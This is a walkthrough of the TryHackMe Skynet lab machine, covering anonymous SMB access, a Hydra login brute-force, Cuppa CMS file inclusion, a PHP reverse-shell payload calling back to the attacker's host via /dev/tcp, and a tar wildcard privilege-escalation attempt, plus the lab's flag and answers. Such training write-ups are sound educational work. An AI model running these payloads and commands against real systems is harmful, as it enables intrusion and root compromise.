


# TryHackMe Skynet — Evidence-Based Penetration Testing Write-up

> **Scope:** Authorized TryHackMe training machine · **Date:** 10 October 2026  
> **Target:** `10.80.151.179` · **AttackBox:** `10.80.99.50`  
> **Verification:** User flag confirmed from command output; root flag **not** yet proven from the collected shell evidence.

## Overview

This Skynet walkthrough reconstructs an actual lab session using the terminal transcript and the screenshots captured during the challenge. It shows how anonymous SMB access exposed a password list, how that list enabled access to Miles Dyson's SquirrelMail account, and how the newly discovered information led to Cuppa CMS and its vulnerable file-inclusion endpoint.

The write-up separates **observed results** from **methods that were attempted but not yet verified**. The original materials are kept in the [`evidence/`](evidence/) directory.

### Attack path

`Anonymous SMB → password-candidate list → Hydra → SquirrelMail → Samba reset message → hidden CMS → Cuppa CMS LFI → user flag → RFI/reverse-shell test → cron/tar privilege escalation attempt`

## 1. Initial enumeration

### Web content discovery

```bash
gobuster dir -u http://10.80.151.179 \
  -w /usr/share/wordlists/dirb/common.txt -x php,txt
```

Relevant results from the lab:

```text
/admin          (301)
/config         (301)
/squirrelmail   (301)
/index.html     (200)
/server-status  (403)
```

`/squirrelmail` is the important initial lead. A separate `curl` request to `/robots.txt` received a `404 Not Found`, so `robots.txt` was not the source of the hidden directory.

### SMB discovery

```bash
smbclient -L //10.80.151.179 -N
```

Observed shares:

```text
print$          Disk   Printer Drivers
anonymous       Disk   Skynet Anonymous Share
milesdyson      Disk   Miles Dyson Personal Share
IPC$            IPC    IPC Service
```

The anonymous share allowed unauthenticated access:

```bash
smbclient //10.80.151.179/anonymous -N
```

Inside `smbclient`:

```text
smb: \> ls
smb: \> get attention.txt
smb: \> cd logs
smb: \logs\> get log1.txt
smb: \logs\> exit
```

The `attention.txt` note stated that Skynet employees had changed passwords because of a system malfunction and was signed by Miles Dyson. `log1.txt` contained 31 lines of candidate passwords. The first candidate was `cyborg007haloterminator`.

## 2. SquirrelMail credential discovery

The recovered wordlist was used in a lab-scoped Hydra test:

```bash
cd ~/THM/Skynet
hydra -l milesdyson -P log1.txt 10.80.151.179 http-post-form \
  "/squirrelmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:F=Unknown user or password incorrect." \
  -t 4 -f -V
```

**Confirmed result:**

```text
[80][http-post-form] host: 10.80.151.179
login: milesdyson   password: cyborg007haloterminator
1 of 1 target successfully completed, 1 valid password found
```

The first attempts failed because `$RHOST` was empty or the `log1.txt` file was referenced outside its actual directory. Using the literal target IP and the correct working directory resolved both issues.

## 3. Accessing the mailbox



**Figure 1:** Original screenshot of SquirrelMail 1.4.23 [SVN] with the `milesdyson` login entered.

The recovered password worked for SquirrelMail. The inbox included an email from `skynet@skynet` titled **Samba Password reset**.



**Figure 2:** Original inbox screenshot, including the password-reset email and two other messages.

The opened email was transcribed in the conversation:

```text
Subject: Samba Password reset
From: skynet@skynet
Date: Tue, September 17, 2019 10:10 pm

We have changed your smb password after system malfunction.
Password: )s{A&2Z=F^n_E.B`
```

**Important:** The password ends with a backtick. An attempt without that final character returned `NT_STATUS_LOGON_FAILURE`. This is **not** the same password as the SquirrelMail account.

Connect to the private share:

```bash
smbclient //10.80.151.179/milesdyson -U milesdyson
```

Enter the complete password at the `smbclient` password prompt, not directly at the Linux Bash prompt. From the share, the lab workflow led to `important.txt` and its hidden beta-CMS path. The subsequent directory enumeration corroborated the path; the original text of `important.txt` was not included in the supplied raw transcript.

## 4. Discovering Cuppa CMS

The hidden directory used in this lab was:

```text
/45kra24zxs28v3yd
```

A new enumeration scan found the administrator route:

```bash
gobuster dir \
  -u http://10.80.151.179/45kra24zxs28v3yd/ \
  -w /usr/share/wordlists/dirb/common.txt \
  -x php,txt,html
```

```text
/administrator   (301)
/index.html      (200)
```

The relevant vulnerable endpoint was:

```text
/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php
```

## 5. File inclusion and user flag

**Local File Inclusion (LFI)** was directly demonstrated with a traversal request to the `urlConfig` parameter:

```bash
curl -sG \
  --data-urlencode "urlConfig=../../../../../../../../../home/milesdyson/user.txt" \
  "http://10.80.151.179/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php"
```

The response contained:

```html
<div id="content_alert" class="content_alert">
    7ce5c2109a40f958099283600a9ae807
</div>
```

**Confirmed user flag:**

```text
7ce5c2109a40f958099283600a9ae807
```

The TryHackMe question asking what it is called when a remote file is included for malicious purposes refers to **Remote File Inclusion (RFI)**. This specific request directly demonstrates LFI; do not confuse the two when reporting evidence.

## 6. Remote file inclusion and initial foothold

A PHP payload was placed on the AttackBox and served through Python's HTTP server:

```bash
cat > shell.php <<'EOF'
<?php
system("bash -c 'bash -i >& /dev/tcp/10.80.99.50/4444 0>&1'");
?>
EOF
python3 -m http.server 8000
```

The server log recorded the target requesting it:

```text
10.80.151.179 - - [10/Oct/2026 15:44:15] "GET /shell.php HTTP/1.0" 200 -
```

This proves that the target requested the hosted file. A separate `curl` call to the inclusion endpoint timed out; timeout alone is not evidence that a listener was reached. In subsequent conversation output, a `www-data@skynet` shell prompt was shown, supporting an established initial foothold. A complete Netcat listener transcript was not attached to the original terminal file.

## 7. Privilege escalation investigation (not verified)

While operating as `www-data`, the following backup script was read:

```bash
cat /home/milesdyson/backups/backup.sh
```

```bash
#!/bin/bash
cd /var/www/html
tar cf /home/milesdyson/backups/backup.tgz *
```

`/var/www/html` was owned by `www-data` and confirmed writable. The wildcard in the `tar` command creates an option-injection risk **if a privileged scheduled task executes the script**.

A test script was staged:

```bash
cd /var/www/html
cat > privesc.sh <<'EOF'
#!/bin/sh
cp /bin/bash /tmp/skynetroot
chmod 4755 /tmp/skynetroot
EOF
chmod +x privesc.sh

touch -- '--checkpoint=1'
touch -- '--checkpoint-action=exec=sh privesc.sh'
```

Both specially named files were visible in the directory listing. However, at the point recorded in the transcript:

```text
ls: cannot access '/tmp/skynetroot': No such file or directory
```

**Verification status:** No root shell or `/root/root.txt` output was captured in the supplied evidence. To complete the record in the lab, inspect `/etc/crontab`, prove the privileged job ran, and capture `id` and `/root/root.txt` output after successful escalation. Avoid describing this step as a verified compromise until those artifacts exist.

## 8. Findings and remediation

| Finding | Evidence | Recommended remediation |
|---|---|---|
| Anonymous SMB information exposure | Guest share revealed employee note and password candidates | Restrict guest access; remove secrets from shared locations; review ACLs |
| Valid email credential from exposed list | Hydra found a valid login | Rotate credentials; deploy MFA/rate limiting; discourage reused passwords |
| Reusable Samba password sent in email | Password-reset email | Use single-use reset tokens and protected secret delivery |
| Cuppa CMS file inclusion | `urlConfig` traversal returned `user.txt` | Patch or remove vulnerable CMS; enforce allowlists; disable unsafe includes |
| Potential tar wildcard privilege escalation | Writable directory and `tar ... *` backup script | Use `--` and safe file lists; avoid privileged backup over writable directories; monitor cron |

## 9. Troubleshooting lessons

- `File for passwords not found`: confirm you are in `~/THM/Skynet` where `log1.txt` was saved.
- `Hydra could not resolve address`: set `export RHOST=10.80.151.179` or use the IP directly.
- `NT_STATUS_LOGON_FAILURE`: the SMB password differs from the email password and includes a final backtick.
- `get logs` fails: `logs` is a folder; run `cd logs` then `get log1.txt`.
- `xit` is not an `smbclient` command; use `exit`.
- `curl` timeout during RFI testing: corroborate with HTTP server logs and listener evidence.
- `/tmp/skynetroot` missing: don't assume cron or privilege escalation succeeded; verify each step.

## 10. Room answers — evidence status

| TryHackMe question | Result |
|---|---|
| Miles' email password | `cyborg007haloterminator` — confirmed |
| Hidden directory | `/45kra24zxs28v3yd` — corroborated by enumeration |
| What is a malicious remote include called? | `Remote File Inclusion (RFI)` |
| User flag | `7ce5c2109a40f958099283600a9ae807` — confirmed from HTTP response |
| Root flag | Not verified in locally submitted target-shell output |

## Evidence and integrity

All original screenshots and the original pasted AttackBox transcript are preserved unchanged under [`evidence/`](evidence/). `supplementary-conversation-excerpts.txt` is a **curated reconstruction** of material provided in the chat and must not be mistaken for an original raw export. See `README_Evidence.md` for provenance and SHA-256 hashes.

---

*This report is for authorized educational security testing against a temporary TryHackMe lab machine only.*
